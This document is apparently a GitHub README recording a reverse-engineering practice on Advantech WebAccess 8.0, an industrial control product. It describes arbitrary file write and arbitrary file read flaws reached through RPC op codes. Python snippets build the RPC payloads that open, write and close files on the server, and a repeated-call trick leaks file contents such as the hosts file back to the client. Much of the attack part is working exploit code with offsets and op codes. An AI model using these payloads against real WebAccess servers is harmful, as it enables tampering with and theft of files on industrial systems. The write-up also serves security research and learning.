

# WebAccess Arbitrary File Read Write

A practice of reverse engineering on old version (8.0) of Advantech WebAccess.

- [Arbitrary File Write](https://github.com/Hagrid29/WebAccess-arbitrary-read-write?tab=readme-ov-file#arbitrary-file-write) 
- [Arbitrary File Read](https://github.com/Hagrid29/WebAccess-arbitrary-read-write?tab=readme-ov-file#arbitrary-file-read-0x283c) 


# Arbitrary File Write
WebAccess handle Op Code and if there is no match, it will pass the Op Code to `DrawSrv.dll` at `webvrpcs+0x478F`. 

There are switches allow me to call `_fsopen`, `fwrite` and `fclose`.

## \_fsopen (0x2779)
### Calculate Op Code
Target function was call at `loc_2584`

We need to make sure the value of `EAX` can lead us to `loc_2584`

Inspect jump table `jpt_2266`. Target function `loc_10002584` is at offset 0x44 from the top. Therefore `ECX` need to be value 0x11

Inspect byte table `byte_2FE0`. Value 0x11 is at offset 0x69 from the top. Therefore `EAX` need to be value 0x69

`EAX` = Op Code (i.e., `EDX`) - 0x2710. Therefore, Op Code is 0x2779


### Parameters
`\_fsopen` accept 3 parameters. `msf-pattern` was used to determine the offset of each parameters in our buffer.
mode = "a" (Opens for reading and appending)
shflag = 0x20 (value was determined by taking other `\_fsopen` call as an example)

```python
#file open
mode_offset = 260
shflag_offset = 280
opcode = 0x2779
buf = b"C:\\test.txt\x00"
buf += b"\x42" * (mode_offset - len(buf))
buf += struct.pack("<L", 0x61) # mode: 0x6277 = wb, 0x6272 = rb, a = 0x61
buf += b"\x42" * (shflag_offset - len(buf))
buf += struct.pack("<L", 0x20)
stubdata = struct.pack("<IIII", val, opcode, len(buf), len(buf))
stubdata += buf
fstream = call(dce, 1, stubdata)
print(''.join('{:02x}'.format(x) for x in fstream))
```

## fwrite (0x277d)

`fwrite` takes 4 parameters while the value of `stream` is obtained from `fopen`.
We can control the value of `size` and `count` of `fwrite` call. Thus, we can write the value on stack to target file if our buffer size is smaller then the total number of elements determined by parameter `size` and `count`.

```python
# file write
opcode = 0x277d
buf = fstream # *stream
buf += struct.pack("<L", 0x1) # size
buf += struct.pack("<L", 0x1000) # nmemb
buf += struct.pack("<L", 0x61616161) # buffer to write
buf += struct.pack("<L", 0x00) # buffer to write
stubdata = struct.pack("<IIII", val, opcode, len(buf), len(buf))
stubdata += buf
res = call(dce, 1, stubdata)
print(res)
```


## fclose (0x277b)


`fclose` takes 1 parameter which is `stream` to close the file handle
```python
# file close
opcode = 0x277b
buf = fstream # *stream
stubdata = struct.pack("<IIII", val, opcode, len(buf), len(buf))
stubdata += buf
res = call(dce, 1, stubdata)
print(res)
```


# Arbitrary File Read (0x283c)
This is a bit tricky because it require luck to leak the memory.

## Observation
It was observed that Op Code 0x283c will first call `FindFirstFileA`. If the call success, it will send buffer of previous call to client at offset 0x260 which is determine by `msf-pattern`

For example, the server will return `BBBB` with following code

``` python
opcode = 0x1111 # Any Op Code
buf = b"\x41" * 260
buf += b"\x42\x42\x42\x42" 
stubdata = struct.pack("<IIII", val, opcode, len(buf), len(buf))
stubdata += buf
res = call(dce, 1, stubdata)
print(res)

# print offset 260
opcode = 0x283c
buf = b"C:\\Windows\\System32\\drivers\\etc\\hosts\x00"
stubdata = struct.pack("<IIII", val, opcode, len(buf), len(buf))
stubdata += buf
res = call(dce, 1, stubdata)
print(res)
```

Client receive the buffer because the app will eventually call `webvrpcs+0x3140` which used to send buffer to client.

The flow is like: 0x283c > `sub_3920` > `sub_3750` > `sub_3610` > `call dword_6248` = `webvrpcs+0x3140`

## Detailed Walkthrough

It was observed that at function `sub_39B0` call `CopyFileA` if 3rd parameter (i.e., `ebp`) is not 0x0. However, I cannot control the value of 3rd parameter. But still, the 3rd parameter will vary upon each call. Therefore, we can call it multiple times until the value is not 0x0.


Once we are able to call `CopyFileA` against our target file, the content of target file is written to heap. The more we call, the more  heap memory got written with file content.

Later at `drawsrv+0x37A7`, the application copy buffer at `ESI` to `EDI` with `ECX` times (i.e., `rep movsd`). `EDI` is pointing to address that near current stack address while ESI is our buffer that located at heap. 


After hundreds of run, `CopyFileA` overwrite the buffer at `ESI` with file content and eventually overwrite stack.

Later at `drawsrv+0x37DA`, `EDX` store the address of `ESP+0x10` which is pointing to file content that written on stack. `EDX` is passed to function `sub_3610` as 3rd parameter and then pass to `webvrpcs+0x3140` as 3rd parameter.

`webvrpcs+0x3140` will send the buffer which contain file content to client at the end



# Reference
- https://www.exploit-db.com/exploits/44376
- https://medium.com/tenable-techblog/advantech-webaccess-unpatched-rce-ffe9f37f8b83
